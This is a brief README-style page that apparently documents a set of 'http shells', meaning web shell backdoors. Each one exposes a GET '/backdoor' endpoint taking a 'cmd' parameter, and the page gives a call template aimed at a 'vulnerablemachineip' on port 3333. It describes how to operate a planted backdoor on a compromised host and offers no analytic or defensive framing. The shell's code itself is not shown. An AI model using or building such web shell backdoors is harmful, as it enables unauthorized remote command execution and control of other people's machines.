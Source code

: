 # http shells

each http shell has a unique  rest endpoint that has as http method GET
```
/backdoor
```
This rest api has a query parameter called cmd. To call a http shell then you should do as the following:
```
http://vulnerablemachineip:3333/backdoor?cmd=command
```

where:
- vulnerablemachineip: is the ip where the web shell is installed.
- command: is the command given to the webshell
